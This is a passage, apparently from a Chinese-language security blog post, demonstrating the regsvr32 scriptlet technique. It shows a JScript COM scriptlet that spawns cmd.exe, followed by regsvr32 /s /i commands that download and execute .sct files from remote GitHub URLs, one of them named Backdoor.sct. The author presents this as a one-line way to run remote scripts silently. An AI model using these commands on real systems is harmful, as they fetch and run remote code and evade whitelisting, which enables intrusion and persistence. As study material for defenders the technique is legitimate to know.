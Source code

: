 ```
<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

    function Exec()
    {
        var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
    }

]]>
</script>

</scriptlet>

```

根据之前介绍的内容，现在来尝试注册这个COM组件：

```
regsvr32 /i https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct

```

![enter image description here](http://drops.javaweb.org/uploads/images/31aa4559a6f9058535c329d08eef7f19052d078d.jpg)

如图虽然能够成功弹出计算器，但是会弹框提示报错

但是**有趣的是**我们可以通过/s参数来忽略这个错误：

```
regsvr32 /s https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct

```

这样就能够成功执行弹出计算器

而**更有趣的是**这个COM组件仍可以被正常调用：

js文件如下：

```
var ref = new ActiveXObject("Empire");
var c=ref.Exec();

```

运行后会弹出cmd

总结以上的内容，只需执行如下代码即可执行远程服务器上的js脚本

```
regsvr32 /s https://gist.githubusercontent.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302/raw/bf04e98329ef471dcbbe621df5d61ddb4e802b63/Backdoor.sct

```
